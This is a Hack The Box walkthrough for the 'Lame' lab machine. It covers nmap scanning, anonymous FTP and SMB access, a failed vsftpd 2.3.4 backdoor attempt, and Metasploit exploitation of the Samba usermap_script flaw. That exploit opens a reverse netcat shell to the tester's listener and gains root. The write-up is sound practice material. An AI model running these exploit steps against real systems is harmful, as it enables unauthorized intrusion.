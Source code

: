 ```yaml
---
title: "Lame"
tags:
  - Easy
  - Linux
  - metasploit
  - vsftpd
  - samba
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.3 |  | [Lame](https://app.hackthebox.com/machines/lame) |  |

---

## Enumeration
---
### Nmap
---
We began with a full port scan and service enumeration using Nmap:

```
nmap -T4 -p- -sC -sV 10.10.10.3

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
...
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap reveals `vsFTPd 2.3.4` , `OpenSSH` and `Samba` running on the target server. 

### FTP
---
The FTP server is configured to allow for anonymous login. Login was successful with the username anonymous and an empty password, but there were no files available for enumeration:

```
ftp 10.10.10.3   

Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||7124|).
150 Here comes the directory listing.
226 Directory send OK.
```

Does this version of the service have vulnerabilities? Indeed, it does. The backdoor vulnerability was assigned [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) and an exploit was found in `Metasploit`.

```
Matching Modules
================

#  Name                                  Disclosure Date  Rank       Check  Description
-  ----                                  ---------------  ----       -----  -----------
0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

We ran the module, but the exploit failed to create a session:

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

We move on to the other services for potential exploitations.

### SMB
---
We enumerate the `smb` service using `smbclient`:

```
smbclient -N -L \\\\10.10.10.3\\  

Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
```

`smbclient` reveals that Samba 3.0.20 is running on the target. We have access to the `tmp` share and do not see anything of interest:

```
smbclient -N \\\\10.10.10.3\\tmp

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jan  4 17:10:33 2025
  ..                                 DR        0  Sat Oct 31 03:33:58 2020
  .ICE-unix                          DH        0  Sat Jan  4 16:08:11 2025
  vmware-root                        DR        0  Sat Jan  4 16:08:54 2025
  .X11-unix                          DH        0  Sat Jan  4 16:08:40 2025
  .X0-lock                           HR       11  Sat Jan  4 16:08:40 2025
  5532.jsvc_up                        R        0  Sat Jan  4 16:09:18 2025
  vgauthsvclog.txt.0                  R     1600  Sat Jan  4 16:08:10 2025

                7282168 blocks of size 1024. 5386548 blocks available
```

### Foothold
---

We use both found vulnerability for this version on Samba using `searchsploit` and confirm the its module in `Metasploit`:

```
searchsploit "Samba 3.0.20"

-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - `Username` map script` Command Execution (Metasploit)      | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                 | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                         | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

msf6 > search "Samba 3.0.20"

Matching Modules
================

#  Name                                Disclosure Date  Rank       Check  Description
-  ----                                ---------------  ----       -----  -----------
0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

According to NIST, [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) stems from the MS-RPC functionality in `smbd` in Samba 3.0.0 through 3.0.25rc3. Remote attackers may execute arbitrary commands via shell metacharacters involing the `SamrChangePassword` function when the `username map script` option is enabled in `smb.conf`. Remote authenticated users may execute commands via shell metacharacters involving other MS-RPC functions in the remote printer and file share management.

We used Metasploit to exploit this vulnerability and obtained root privileges:

```
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
msf6 exploit(multi/samba/usermap_script) > set LPORT 443
msf6 exploit(multi/samba/usermap_script) > run
                                                                             
[*] Started reverse TCP handler on 10.10.14.8:443                            
[*] Command shell session 1 opened (10.10.14.8:443 -> 10.10.10.3:36651) at 2025-01-04 18:22:17 -0500
                                                                             
id                                                                           
uid=0(root) gid=0(root)   
```

The user flag can be found at `/home/makis/user.txt`, and the root flag can be found at
`/root/root.txt`.
